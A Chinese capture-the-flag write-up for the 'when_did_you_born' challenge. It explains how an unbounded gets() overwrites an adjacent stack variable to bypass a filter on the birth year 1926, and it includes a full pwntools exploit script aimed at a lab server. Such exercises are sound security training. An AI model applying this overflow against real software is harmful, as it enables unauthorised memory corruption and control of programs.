

# 攻防世界: when_did_you_born

## **[目标]**
Variables overriding

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 运行一下程序：



- 在ida中查看一下：


- 思路：可以看到 当生日是1926年的时候就会输出flag，但是程序对1926做了过滤，直接输入1926 程序就会结束。 同时，我们发现，v5和v4是在栈上的数据，接收name的gets函数不限制输入长度，于是 就可以在输入v4的时候覆盖掉之前我们输入的v5。那如何 判断 v4和v5 的相对位置呢？ ida在反汇编的伪代码中，标注了局部变量在栈中的位置，看红色箭头处，就能发现 v4和v5相差8个字节。这样我们就可以构造payload。

```
payload = "A"*8 + p32(1926)
```
完整的exp:

```
from pwn import *

#p = process("./when_did_you_born")
p = remote('10.10.49.194', 30149)

p.sendlineafter("Birth?\n",str(1998))

payload = "A"*8 + p32(1926)

p.sendlineafter("Name?\n",payload)

print p.recvall()

```

## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)


